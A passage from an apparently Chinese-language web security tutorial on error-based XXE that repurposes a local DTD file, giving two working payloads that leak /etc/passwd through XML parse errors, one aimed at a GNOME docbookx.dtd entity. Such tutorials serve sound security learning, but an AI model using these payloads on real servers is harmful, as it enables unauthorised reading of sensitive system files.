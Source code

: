 ![img](https://raw.githubusercontent.com/shungli923/PicGoImg/master/assets%252F-L_2uGJGU7AVNRcqRvEi%252F-M5MUTcJhMM63Gk3J-i9%252F-M5Mm49epOTNmGzXTZKv%252Fimage.png)

需要注意的是，外部DTD允许我们在第二个（eval）中包含一个实体，但在内部DTD中是禁止的。因此，通常如果不使用外部DTD，就无法触发Error Based XXE。

### Error Based (系统实体)

这种情况适用于是Blind SSRF，同时上述方式不生效时。

原理是利用XML语言规范中的漏洞触发包含敏感数据的错误消息。如果文档的DTD同时存在内部和外部DTD声明，那么内部DTD可以重新定义在外部DTD中声明的实体。当这种情况发生时，在另一个参数实体的定义中使用XML参数实体的限制将被放宽。

这意味着攻击者可以在内部DTD中使用error-based XXE技术，前提是他们使用的XML参数实体正在重新定义外部DTD中声明的实体。当然，如果带外连接被阻止，则无法从远程位置加载外部DTD。所以，它需要是应用程序服务器本地的外部DTD文件。本质上，该攻击就是操作存在于本地文件系统上的DTD文件，重新调整其用途，以触发包含敏感数据的解析错误的方式重新定义现有实体。

例如，假设服务器文件系统上的位置/usr/local/app/schema处有一个DTD文件。dtd，该dtd文件定义了一个名为custom_entity的实体。攻击者可以通过提交如下混合DTD来触发包含/etc/passwd文件内容的XML解析错误消息：

```xml-dtd
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```

在上述代码的执行过程中发生了以下事情：

- 定义一个名为local_dtd的XML参数实体，其中包含服务器文件系统上已存在的外部dtd文件的内容。
- 重新定义名为custom_entity的XML参数实体，该实体已在外部DTD文件中定义。实体被重新定义为包含已描述的，用于触发包含/etc/passwd文件内容的错误消息。
- 由于local_dtd实体的使用，外部dtd被覆盖，包括custom_entity实体的新值。这将产生所需的错误消息。
  （实际上，使用有GNOME桌面环境的系统通常在/usr/share/yelp/DTD/docbookx.dtd文件里面有一个名为ISOamso的实体。）

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

![img](https://raw.githubusercontent.com/shungli923/PicGoImg/master/assets%252F-L_2uGJGU7AVNRcqRvEi%252F-M5MUTcJhMM63Gk3J-i9%252F-M5Mpd6wV0MY5cbvPQRB%252Fimage.png)

